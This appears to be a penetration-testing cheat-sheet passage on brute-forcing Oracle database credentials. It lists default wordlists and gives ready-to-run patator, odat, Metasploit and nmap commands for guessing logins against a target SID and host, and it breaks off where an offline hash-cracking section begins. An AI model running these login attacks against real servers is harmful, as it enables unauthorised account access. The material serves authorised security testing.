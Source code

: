 ## User/Pass bruteforce

Different tools offered **different user/pass lists** for oracle:

```bash
oscan: /usr/share/oscanner/accounts.default (169 lines)
MSF-1: from admin/oracle/oracle_login __/usr/share/metasploit-framework/data/wordlists/oracle_default_passwords.csv (598 lines)
MSF-2: from scanner/oracle/oracle_login /usr/share/metasploit-framework/data/wordlists/oracle_default_userpass.txt (568 lines)
Nmap: /usr/share/nmap/nselib/data/oracle-default-accounts.lst (687 lines)
```

I have mixed all of them and removed duplicates:

[users-oracle.txt](https://secybr.com/assets/file/oracle/users-oracle.txt)

[pass-oracle.txt](https://secybr.com/assets/file/oracle/pass-oracle.txt)

## Brute Force

Now, that you know a valid SID and valid credentials. To connect to the database you need the tool: *sqlplus* 

```bash
patator oracle_login sid=<SID> host=<IP> user=FILE0 password=FILE1 0=users-oracle.txt 1=pass-oracle.txt -x ignore:code=ORA-01017

./odat.py passwordguesser -s $SERVER -d $SID
./odat.py passwordguesser -s $MYSERVER -p $PORT --accounts-file accounts_multiple.txt

#msf1
msf> use admin/oracle/oracle_login
msf> set RHOSTS <IP>
msf> set RPORT 1521
msf> set SID <SID>

#msf2, this option uses nmap and it fails sometimes for some reason
msf> use scanner/oracle/oracle_login
msf> set RHOSTS <IP>
msf> set RPORTS 1521
msf> set SID <SID>

#nmap fails sometimes for some reson executing this script
nmap --script oracle-brute -p 1521 --script-args oracle-brute.sid=<SID> <IP>
```

In order to use `oracle_login` with `patator` you need to install:

```bash
pip3 install cx_Oracle --upgrade
```

Offline OracleSQL hash bruteforce (versions 11.1.0.6, 11.1.0.7, 11.2.0.1, 11.2.0.2, and 11.2.0.3):1
